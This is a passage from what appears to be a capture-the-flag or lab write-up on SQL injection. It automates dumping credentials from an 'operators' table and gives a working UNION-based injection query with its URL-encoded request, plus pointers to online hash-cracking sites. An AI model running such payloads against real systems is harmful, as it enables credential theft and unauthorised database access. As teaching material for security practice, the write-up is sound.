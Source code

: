To ensure that the script is running in the first place and as expected we first send only one request (keeping range(0,1)), and check the response.

![SQLi Requester](/sqli-0x02/35_row_auto1.png)

Output:

![Test Response OK](/sqli-0x02/35_row_auto2.png)

Response comes exactly as expected, but it requires processing. We can use `grep` and `cut` commands to get the useful output.

Command used:
```
python sqli_charon.py | grep "cred:" | cut -d":" -f2,3
```

Output:

![Response Processed](/sqli-0x02/35_row_auto3.png)

Perfect, let's get them all and save them in a file

![Saved Credentials](/sqli-0x02/35_row_auto4.png)

As shown above, we were able to get all the credentials that was present in the operators table.

This is not the only way to automate this process, and I'd like to encourage you to come up with different ways to do the same as a fun learning exercise.

The shortcut way to do this would again be using wildcards. Since we know that there are test accounts present in this table to waste our time, we could ask the database to get the count of rows which does not have a username with "test" in it.

Query:
``` SQL
SELECT 1,2,3,CONCAT('\r\n',count(id),'\r\n','@test.com') FROM operators WHERE __username_ NOT like 'test%'-- -
```

Request:

```
test%40abcd.com'+UnIoN+SELECT+1,2,3,CONCAT('\r\n',count(id),'\r\n','%40test.com')+FROM+operators+WHERE+__username_+NOT+like+'test%25'--+-
```

![Real Accounts Count](/sqli-0x02/36_real1.png)

Out of 202 rows in the table, 200 were fake accounts, and just two useful accounts.

As a sidenote, if you'd like to crack hashes you got via some SQL injection or some another way, it is a good idea to first try to crack them online. It not only saves you time but also resources.
1. https://crackstation.net/
2. https://hashes.org/search.php
3. https://hashes.com/en/decrypt/hash

